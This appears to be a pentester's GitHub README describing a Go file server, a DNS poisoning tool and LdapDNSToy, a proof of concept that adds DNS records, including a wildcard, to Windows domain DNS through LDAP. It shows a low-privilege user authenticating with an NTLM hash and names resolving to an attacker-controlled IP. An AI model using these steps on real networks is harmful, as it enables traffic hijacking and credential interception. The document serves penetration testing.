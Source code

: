 # Vault
This is just a place where I put simple scripts and notes to access them quickly.

## SimpleHTTPServer.go
This is what you may need when doing a pentest and Python is not there to help you!
As GO builds a portable file for many architectures, it is our saviour :)

Test it:
```  $ go run SimpleHTTPServer.go 8080 ./ ```
Build it:
```  $ env GOOS=linux GOARCH=arm GOARM=7 go build SimpleHTTPServer.go ```

## SDPT (Simple DNS Poisoner Tool) 
Sniffes for DNS queries going through your attacker host and provides fake answers to the specified DNS type A queries. It also forwards other queries different than type A and those pointing to FQDN that are not specifically included within the fake list.

## LdapDNSToy
This simple PoC allows to insert DNS type A records on a Windows Domain DNS server via LDAP by means of a Domain User (without additional privileges) using Python. 
* The original idea can be read here: https://blog.netspi.com/exploiting-adidns/

*Note: This is just a PoC, so don't use it in production systems or do it under your risk.*

### Basic Usage:
**1. Adding a new DNS node (type A record)**

Observe the host "nodito.bransh.local" does not exist:
```
root@kali:/# host nodito.bransh.local 10.x.x.190
Using domain server:
Name: 10.x.x.190
Address: 10.x.x.190#53
Aliases: 

Host nodito.bransh.local not found: 3(NXDOMAIN)
root@kali:/#
```
Let's add it pointing to the attacker-controlled IP 10.x.x.111:
```
root@kali:/# python LdapDNSToy.py -d bransh.local -u lowpriv1 -hash FBDCD5041C96DDBD82224270B57F11FC -dc 10.x.x.190 -ip 10.x.x.111 -name nodito
[*] Creating an LDAP connection.
[*] Using NTLM authentication.
[*] The object was successfully added.
root@kali:/# 
```
Wait for a few minutes and then try to solve it again:
```
root@kali:/# host nodito.bransh.local 10.x.x.190
Using domain server:
Name: 10.x.x.190
Address: 10.x.x.190#53
Aliases: 

nodito.bransh.local has address 10.x.x.111
root@kali:/# 
```

**2. Adding a wildcard DNS node (type A record)**

Observe the host "nodito.bransh.local" does not exist:
```
root@kali:/# python LdapDNSToy.py -d bransh.local -u lowpriv1 -hash FBDCD5041C96DDBD82224270B57F11FC -dc 10.x.x.190 -ip 10.x.x.111 -name \*
[*] Creating an LDAP connection.
[*] Using NTLM authentication.
[*] The object was successfully added.
root@kali:/# 
```

Now, try to resolve any hostname such as unknown or trulyunknown and observe how they ALL point to the same attacker-controlled IP:
```
root@kali:/# host unknown.bransh.local 10.x.x.190
Using domain server:
Name: 10.x.x.190
Address: 10.x.x.190#53
Aliases: 

unknown.bransh.local has address 10.x.x.111
```
```
root@kali:/# host trulyunknown.bransh.local 10.x.x.190
Using domain server:
Name: 10.x.x.190
Address: 10.x.x.190#53
Aliases: 

trulyunknown.bransh.local has address 10.x.x.111
root@kali:/# 
```
